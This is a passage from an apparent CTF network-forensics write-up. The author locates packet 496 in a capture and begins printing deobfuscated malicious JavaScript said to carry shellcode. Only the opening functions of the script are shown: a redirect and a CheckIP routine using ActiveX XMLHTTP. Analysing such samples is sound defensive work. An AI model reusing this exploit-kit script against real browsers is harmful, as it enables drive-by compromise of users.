 ![93aeb382da9714f235d22cdb88e86767.png](../../_resources/93aeb382da9714f235d22cdb88e86767.png)

We do not see anything specific to `/load.php?e=8` here and from the clue from got from previous question we will have to find the right packet that contains shellcode

![6b838c9250ea414c72afa8fe638280b7.png](../../_resources/6b838c9250ea414c72afa8fe638280b7.png)

After some search we will eventually found that packet 496 got the longest js and after print out deobfuscated js, we can see that it got so many shellcode here

Here is the full deobfuscated javascript from packet 496 after passed to beautifiy js
```
function Complete() {
	setTimeout('location.href = "about:blank', 2000);
}
function CheckIP() {
	var req = null;
	try {
		req = new ActiveXObject('Msxml2.XMLHTTP');
	} catch (e) {
		try {
			req = new ActiveXObject('Microsoft.XMLHTTP');
		} catch (e) {
```